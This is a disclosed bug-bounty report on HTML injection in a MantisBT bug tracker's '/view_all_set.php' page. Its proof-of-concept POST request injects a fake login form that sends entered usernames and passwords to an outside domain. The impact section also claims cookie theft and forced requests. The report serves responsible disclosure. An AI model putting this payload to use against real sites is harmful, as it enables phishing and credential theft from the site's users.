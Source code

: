 # [bugs.fuzzing-project.org] HTML Injection via 'custom_field_7[]' parameter in '/view_all_set.php'

## Report Details
- **Report ID**: 903869
- **URL**: https://hackerone.com/reports/903869
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-06-20T16:11:52.864Z
- **Disclosed**: 2020-09-08T07:30:38.889Z

## Reporter
- **Username**: dragonjar
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: hannob

## Vulnerability Information
## Vulnerable Website URL or Application:

https://bugs.fuzzing-project.org/view_all_set.php?f=3

## Description of Security Issue:

By not properly cleaning the information entered in the `custom_field_7[]` field, an attacker could send emails to company customers, pointing to a legitimate fuzzing project domain where they are prompted for data, the possibility of successful phishing is excellent as the form is within the domain of the company.

## Please provide an exploit scenario for this vulnerability:

This could be a form where information is requested and sent to an external domain

{F876158}

```
POST /view_all_set.php?f=3 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Referer: https://bugs.fuzzing-project.org/
Cookie: MANTIS_secure_session=0;MANTIS_collapse_settings=|sidebar:1|filter:1;PHPSESSID=1495fp23866b0m12bi541et8c7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Content-Length: 1947
Host: bugs.fuzzing-project.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Connection: Keep-alive

category_id[]=0&custom_field_1[]=0&custom_field_2[]=0&custom_field_3[]=0&custom_field_4[]=0&custom_field_5[]=0&custom_field_6[]=0&custom_field_7[]=0'"()%26%25"'</td>--><div class="position-relative"><div class="signup-box visible widget-box no-border" id="login-box"><div class="widget-body"><div class="widget-main"><h4 class="header lighter bigger"><i class="ace-icon fa fa-sign-in"></i>Inicio de sesión</h4><div class="space-10"></div><form id="login-form" method="post" action="https://www.dragonjar.org"><fieldset><label for="username" class="block clearfix"><span class="block input-icon input-icon-right"><input id="username" name="username" type="text" placeholder="Nombre de usuario"   size="32" maxlength="191" value=""   class="form-control autofocus"><i class="ace-icon fa fa-user"></i></span></label><label for="password" class="block clearfix"><span class="block input-icon input-icon-right"><input id="password" name="password" type="password" placeholder="Contraseña" size="32" maxlength="1024" class="form-control autofocus"><i class="ace-icon fa fa-lock"></i></span></label><div class="space-10"></div><input type="submit" class="width-40 pull-right btn btn-success btn-inverse bigger-110" value="Iniciar sesión" /></fieldset></form></div><!--&dir[]=ASC&end_day=15&end_month=2&end_year=2020&filter=Use%20Filter&filter_by_date=0&filter_by_last_updated_date=0&handler_id[]=0&hide_status[]=-2&highlight_changed=6&last_updated_end_day=15&last_updated_end_month=2&last_updated_end_year=2020&last_updated_start_day=15&last_updated_start_month=2&last_updated_start_year=2020&match_type=0&monitor_user_id[]=0&note_user_id[]=0&os[]=0&os_build[]=0&per_page=50&platform[]=0&priority[]=0&profile_id[]=0&relationship_bug=0&relationship_type=-1&reporter_id[]=0&resolution[]=0&search=the&severity[]=0&sort[]=priority&start_day=15&start_month=2&start_year=2020&status[]=10&sticky=0&tag_select=0&tag_string=17&type=1&view_state=0&view_type=simple
```


## Steps needed to reproduce bug:

1. Open PoC.html ( {F876154} ) file in a web browser
2. check the webform

## Impact

An attacker could create a payload that, when visiting the site, without doing anything else (the site has a lot of traffic), could perform sensitive actions, such as reading private information, obtaining cookies those that are not marked as "httpOnly" or " isSecure ", including creating or modifying information within the platform since it does not have anti CSRF protection and we can force victims to generate requests on their behalf in the system with their privileges.

## Attachments
- PoC.htm
- HTML_Injection.jpg
